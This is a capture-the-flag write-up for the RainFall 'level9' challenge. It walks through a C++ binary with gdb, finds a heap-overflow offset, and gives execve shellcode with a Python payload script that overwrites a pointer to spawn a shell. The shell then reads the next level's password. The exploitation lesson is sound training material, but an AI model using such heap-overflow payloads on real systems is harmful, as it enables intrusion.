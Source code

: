 You can see that the binary is holding weird symbol names.

It's probably because the original code was written in `cpp`.
The function `_Znwj` is known to be the cpp `new` operator.

The other function, I don't know if they're internal `cpp` function, or
user made one. They'll be present in my reverse to understand what they do.

The idea here is to execute a shell code stored on the heap allocation in `ptr`.

By making an overflow on the `ptr` allocation, we can write the address of our shell
code in the `ptr2` pointer, and it'll be executed by this line of code:
`return (**ptr2(ptr2, ptr));`.

1. Get the `ptr`, and `ptr2` pointers.
```sh
level9@RainFall:~$ gdb --args ./level9 AAAA
(gdb) b *main + 159
Breakpoint 1 at 0x8048693
(gdb) x/x $esp+0x14 # ptr
0xbffff724:     0x0804a008
(gdb) x/x $esp+0x10 # ptr2
0xbffff720:     0x0804a078
```

2. Find and use a shell code:

I found the [shell-storm - shellcode 841](https://shell-storm.org/shellcode/files/shellcode-841.html),
which give us directly a premade shellcode to `execve` the `sh` binary.

There it's:
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

3. Get the offset of the pointer we need to change:

Send the following string: `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A`

And with `dmesg`:
```
[19144.949226] level9[3923]: segfault at 41366441 ip 08048682 sp bffff6c0 error 4 in level9[8048000+1000]
```

So it had segfault has: `A6dA` => `Ad6A` (from the 108th byte). But because we execute a double dereference,
we need to set another address at this position.

4. Use the heap buffer overflow to change the ptr2 pointed address to our shellcode.

The other bytes had to be filled with padding `\x90` (`NOP` code), to avoid any execution.

To avoid conflicts and execution, we need to first set our shellcode.
Then, padding of `NOP` code.
And then the pointer to that shellcode (if we set it earlier, it could be interpreted as code).
And finally, the pointer that points to our shell code pointer. Which is ptr2 - 4.
```py
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f" \
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd" \
"\x80"

shellcode_address = "\x08\xa0\x04\x08"
addr_of_shellcode_addr = "\x74\xa0\x04\x08"

print(shellcode + \
	(104 - len(shellcode)) * "\x90" + \
		shellcode_address + \
			addr_of_shellcode_addr)
```

We put it into a file in `/tmp/exploit.py`, and here we go:
```sh
level9@RainFall:~$ ./level9 "$(python /tmp/exploit.py)"
$ cd ../bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```